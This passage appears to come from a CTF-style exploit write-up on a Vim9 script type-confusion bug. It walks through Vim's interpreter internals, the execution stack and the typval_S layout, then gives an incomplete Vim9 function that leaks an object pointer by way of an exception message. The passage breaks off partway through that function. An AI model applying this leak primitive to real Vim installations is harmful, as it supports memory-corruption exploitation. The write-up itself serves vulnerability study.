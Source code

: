 Mandatory for dynamic analysis: debug symbols. Just clone the repo,
`CFLAGS="-g3 -O0" ./configure; make -j16` and here we go.

Another important thing is the `exec_instructions` function in `vim9execute.c`. If you jump at
line 3452, you will find a huge switch. This is the switch that select the compiled instruction.
This means that at that point we must have a lot of information on how the interpreter works.

The only argument passed to this function is `ectx` that (as the comment above the function says)
is the execution context. Looking at his type, we can figure out a lot of interesting things.
```c
struct ectx_S {
    garray_T    ec_stack;   // stack of typval_T values
    ...
};
```
We don't need much else from it. There is a stack with values and types on it. `typval_T` is:
```c
struct typval_S
{
    vartype_T   v_type;
    char    v_lock;     // see below: VAR_LOCKED, VAR_FIXED
    union
    {
        varnumber_T v_number;   // number value
        float_T     v_float;    // floating point number value
        char_u      *v_string;  // string value (can be NULL)
        list_T      *v_list;    // list value (can be NULL)
        dict_T      *v_dict;    // dict value (can be NULL)
        partial_T   *v_partial; // closure: function with args
#ifdef FEAT_JOB_CHANNEL
        job_T       *v_job;     // job value (can be NULL)
        channel_T   *v_channel; // channel value (can be NULL)
#endif
        blob_T      *v_blob;    // blob value (can be NULL)
        instr_T     *v_instr;   // instructions to execute
        class_T     *v_class;   // class value (can be NULL)
        object_T    *v_object;  // object value (can be NULL)
    } vval;
};
```
And that's pretty much all we need to know.

We have an array that behaves as a stack, with the variables on it (this comes from dynamic
analysis). The variables are stored as: 4 bytes of type, 4 bytes of lock (useless for us) and
8 bytes of pointer/number. Now we know exactly why it crashed when we added one to the
string: we added one to the pointer to the actual string, so it correctly printed one less
`A`, and it crashed, because when the execution terminates all the variable gets freed and
we are freeing a misaligned pointer.

We also know what is the first leak, the pointer to the characters. We can place the code
inside a try catch block, print the exception message and place an input to pause the
execution, so that we can see what's happening with the debugger.

Since we will have to do this anyway, let's create a decent function to return the leak.
```vim
def LeakObjPtr(obj: any): number
    try
       var x = []
        x[obj]
    catch /E684/
        var leak_str: string = v:exception
        # Be careful not to do: `var leak: number = leak_str[35 : ]`
        # It will compile because of the patch, but it will be a string,
        # there is no automatic conversion
        var leak: number = str2nr(leak_str[35 : ])
        echo printf("%#018lx\n", leak)  # Will be removed
        input("OK?")  # Will be removed
```